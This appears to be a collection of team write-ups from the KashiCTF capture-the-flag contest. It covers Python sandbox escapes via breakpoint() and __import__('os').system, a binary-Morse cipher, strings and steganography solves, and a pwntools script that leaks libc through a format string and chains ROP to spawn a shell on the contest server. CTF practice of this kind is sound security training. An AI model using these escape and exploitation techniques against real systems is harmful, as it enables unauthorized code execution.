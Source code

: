 # KashiCTF

# By bytecodesky

# Easy Jail 2 - Writeup

## Description
The challenge consists of escaping a Python sandbox (PyJail) to execute arbitrary system commands and read the flag.
## Analysis
The challenge environment restricts the execution of certain commands and modules. However, since we have an interactive Python session, we can look for ways to bypass these restrictions and execute arbitrary code.

## Exploitation
I discovered that the breakpoint() function could be used to access Python's interactive debugger. From there, it is possible to import modules like os and execute system commands.

The final exploit was:
```python
breakpoint()
import os; os.system("sh")
```
This gave us an interactive shell, allowing us to run:
```bash
cat /flag.txt
```
## Conclusion

Using `breakpoint()` allowed access to an interactive debugger, which enabled arbitrary command execution, making it possible to escape the sandbox and retrieve the flag.

# By m3tadr0id

# Lost Frequencies (CRYPTO)


### Description:

> Zeroes, ones, dots and dashes  
> Data streams in bright flashes

Given data:

```
111 0000 10 111 1000 00 10 01 010 1011 11 111 010 000 0
```

---

## Solution:

### Step 1: Recognizing the Pattern

The challenge hints at a connection between binary digits (0s and 1s) and Morse code due to the reference to "dots and dashes."

### Step 2: Interpreting the Data

Binary sequences like `111` and `0000` could represent Morse code elements:

- `1` can correspond to a dash (`-`)
- `0` can correspond to a dot (`.`)

Using this pattern, we attempted to decode the binary sequence into Morse code.

### Step 3: Decoding Morse Code

We used [dCode's Morse Code Decoder](https://www.dcode.fr/morse-code) to translate the extracted Morse code into readable text.

![Pasted image 20250224225632](./images/7724cc35-a1c6-4aa2-a9fd-fbd0f7d6309e.png)


`KashiCTF{OHNOBINARYMORSE}`


### Game 1 - Untitled Game (Reverse)

Running `strings` on the binary immediately revealed the flag:

![Pasted image 20250224230030](./images/bf6e4dc2-4298-42aa-8f30-a6d507b3b09f.png)

`KashiCTF{N07_1N_7H3_G4M3}`

### Look at Me (Dfir)

### Description:

> There is something wrong with him... What can it be??

We were given an image that reminded me of the software SilentEye, a tool used for steganography analysis.

### Solution:

Using SilentEye,  I analyzed the image and extracted hidden data. The decoded message revealed the flag:


![Pasted image 20250224230554](./images/361d39c5-939f-4d84-b09f-a1e8b59d74a7.png)


`KashiCTF{K33p_1t_re4l}`

# The Troll Zone

```py
from pwn import *
context.arch="amd64"
p=remote("kashictf.iitbhucybersec.in",65239)
libc=ELF("libc.so.6")
p.sendlineafter("? ","%17$p")
p.recvuntil("Lmao not giving you ")
libc.address=int(p.recvline(keepends=False),16) -0x2724a
print(f"{hex(libc.address)=}")
p.sendlineafter("at? ",b'a'*0x28+p64(0x0040123f)+p64(next(libc.search(asm('pop rdi; ret'), executable=True)))+p64(libc.search(b'/bin/sh').__next__())+p64(libc.sym['system']))
p.interactive()
```
# By `superman_.22`

- easy jail 1
    - `__import__('os').system('cat /flag.txt')`

![easyjail1.png](./images/easyjail1.png)

- `MemorieBringBackYou` and `Corruption`
    - Running strings and grep for format flag KashiCTF{

![corruption.png](./images/corruption.png)

![MemorieBringBackYou](./images/Memory.png)